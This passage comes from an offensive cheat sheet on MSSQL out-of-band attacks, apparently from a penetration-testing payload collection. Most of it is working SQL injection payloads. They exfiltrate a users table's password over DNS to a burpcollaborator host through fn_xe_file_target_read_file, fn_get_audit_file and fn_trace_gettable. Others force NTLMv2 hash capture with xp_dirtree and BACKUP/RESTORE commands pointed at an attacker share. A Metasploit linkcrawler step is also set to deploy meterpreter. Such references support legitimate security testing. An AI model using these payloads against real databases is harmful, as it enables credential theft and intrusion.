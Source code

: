 
## MSSQL Out of Band

### MSSQL DNS exfiltration

Technique from https://twitter.com/ptswarm/status/1313476695295512578/photo/1

* **Permission**: Requires VIEW SERVER STATE permission on the server.

    ```powershell
    1 and exists(select * from fn_xe_file_target_read_file('C:\*.xel','\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\1.xem',null,null))
    ```

* **Permission**: Requires the CONTROL SERVER permission.

    ```powershell
    1 (select 1 where exists(select * from fn_get_audit_file('\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\',default,default)))
    1 and exists(select * from fn_trace_gettable('\\'%2b(select pass from users where id=1)%2b'.xxxx.burpcollaborator.net\1.trc',default))
    ```


### MSSQL UNC Path

MSSQL supports stacked queries so we can create a variable pointing to our IP address then use the `xp_dirtree` function to list the files in our SMB share and grab the NTLMv2 hash.

```sql
1'; use master; exec xp_dirtree '\\10.10.15.XX\SHARE';-- 
```

```sql
xp_dirtree '\\attackerip\file'
xp_fileexist '\\attackerip\file'
BACKUP LOG [TESTING] TO DISK = '\\attackerip\file'
BACKUP DATABASE [TESTING] TO DISK = '\\attackeri\file'
RESTORE LOG [TESTING] FROM DISK = '\\attackerip\file'
RESTORE DATABASE [TESTING] FROM DISK = '\\attackerip\file'
RESTORE HEADERONLY FROM DISK = '\\attackerip\file'
RESTORE FILELISTONLY FROM DISK = '\\attackerip\file'
RESTORE LABELONLY FROM DISK = '\\attackerip\file'
RESTORE REWINDONLY FROM DISK = '\\attackerip\file'
RESTORE VERIFYONLY FROM DISK = '\\attackerip\file'
```


## MSSQL Trusted Links

> The links between databases work even across forest trusts.

```powershell
msf> use exploit/windows/mssql/mssql_linkcrawler
[msf> set DEPLOY true] # Set DEPLOY to true if you want to abuse the privileges to obtain a meterpreter session
```
